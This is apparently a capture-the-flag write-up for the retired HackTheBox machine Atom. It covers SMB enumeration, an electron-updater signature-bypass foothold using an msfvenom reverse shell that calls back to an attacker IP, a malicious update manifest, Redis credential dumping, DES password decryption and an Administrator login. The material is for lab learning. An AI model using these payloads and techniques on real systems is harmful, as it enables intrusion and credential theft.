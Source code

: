 ```yaml
---
title: HackTheBox - Atom Writeup
subtitle: Here's my writeup for the RETIRED machine Atom, Which is a Medium Windows machine!
summary: Here's my writeup for the RETIRED machine Atom, Which is a Medium Windows machine!
date: '2021-07-10'
draft: false
authors: ['elleuch']
categories: ['HackTheBox', 'Medium']
tags: ['HackThebox', 'Medium','Windows']
image: /assets/img/htb-atom/Featured.png
render_with_liquid: false
---
```


# Information Gathering

---

## Nmap scan
```
sudo nmap -sC -sV 10.10.10.237 -v
```

```
80/tcp  open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Heed Solutions
135/tcp open  msrpc        Microsoft Windows RPC
443/tcp open  ssl/http     Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Heed Solutions
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after:  2019-11-08T23:48:47
| MD5:   a0a4 4cc9 9e84 b26f 9e63 9f9e d229 dee0
|_SHA-1: b023 8c54 7a90 5bfa 119c 4e8b acca eacf 3649 1ff6
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)

```

## Web Enumeration

<img src="/assets/img/htb-atom/web.png">

It's a static page with an executeable to download, but nothing interesting! Let's keep enumerating

## <p style="color:Green">SMB Enumeration </p> 

<img src="/assets/img/htb-atom/smb.png">

An interesting share `Software_Updates` let's take a look at it

<img src="/assets/img/htb-atom/foothold.png">

Let's try download everything

```
prompt off
recurse on
mget *
```

<img src="/assets/img/htb-atom/smbfiles.png">
We only have a pdf file!

---

# Foothold 

---

Let's take a look at the pdf file

<img src="/assets/img/htb-atom/electron.png">
<img src="/assets/img/htb-atom/electron1.png">

The Heedv1 app is build with `electron-builder` and also we can drop updates in the client folders in the smb and it get executed.
Searching in  google for an electron builder update rce, we can find an interesting

> https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html

Let's first create our shell with the name "s'hell.exe" to bypass the signature

```
msfvenom -p windows/shell_reverse_tcp  lhost=10.10.14.5 lport=9001 -f exe -o "s'hell.exe"
```

And also generate the encdoded shasum of our malicious file

```
shasum -a 512 s\'hell.exe | cut -d " " -f1 | xxd -r -p | base64
``` 

Now we're ready to create our `latest.yml`

```yml
version: 1.2.3

path: http:/IP:PORT/s'hell.exe
sha512: CZsOB2[-SNIP-]2tW5UhzwqzLVkkpzAbuIw==
```

Let's setup a listener and upload them to the clients folder in the smb! And wait until we get a shell back


<img src="/assets/img/htb-atom/foothold.png">

We're on the box now! And we can get the user flag !:D

<img src="/assets/img/htb-atom/user.png">


---

# PrivEsc

---

Before running any enumerating tool, i always check the Program file, the documents and Downloads folders to check if we have any custom Software  (a aka free win) installed in the system!

<img src="/assets/img/htb-atom/portable.png">

We  can copy the whole folder and try to retrieve the encrypted like the machine `sharp` but let's keep enumerating!
> https://www.exploit-db.com/exploits/49409


<img src="/assets/img/htb-atom/redis.png">

We can see that Redis is installed, we can grab the redis password from the config file

<img src="/assets/img/htb-atom/pass.png">

```
requirepass kidvscat_yes_kidvscat
```
Now we can enumerate the redis service!

We will use the redis-tools package

```
sudo apt-get install redis-tools
```

> A very good ressource, i'll use everything from here https://book.hacktricks.xyz/pentesting/6379-pentesting-redis

Let's dump the database
```redis
info
```
<img src="/assets/img/htb-atom/rd.png">

Let's list the keys from the db0


<img src="/assets/img/htb-atom/rd1.png">

Let's check their content
<img src="/assets/img/htb-atom/PS.png">


The key `pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0` seems to give us credentials 

```
Administrator:Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi
```
Seems like it's an encrypted password! And we already know that we have an exploit to decrypt it ! Lets give it a try


Let's just take a snippet from the exploit-db exploit 
```python
#!/usr/bin/env python3
import base64
from des import *
def decode(hash):
	hash = base64.b64decode(hash.encode('utf-8'))
	key = DesKey(b"7ly6UznJ")
	return key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8')

print('[+] Decrypted Password: '+decode('Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi'))
```

<img src="/assets/img/htb-atom/adminpass.png">

```
Administrator:kidvscat_admin_@123
```
Now let's login as administrator to the machine

```
winexe -U 'Administrator%kidvscat_admin_@123' //10.10.10.237 cmd.exe
```



<img src="/assets/img/htb-atom/toor.png">

And we rooted the machine!
